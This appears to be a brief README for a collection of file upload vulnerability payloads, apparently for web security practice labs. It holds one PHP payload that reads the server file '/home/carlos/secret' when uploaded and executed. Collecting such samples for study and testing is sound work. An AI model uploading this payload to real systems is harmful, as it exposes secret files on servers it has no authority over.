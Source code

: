 # Payloads

Add your payloads, scripts, or exploit samples for File Upload Vulnerabilities here.


<?php echo file_get_contents('/home/carlos/secret'); ?>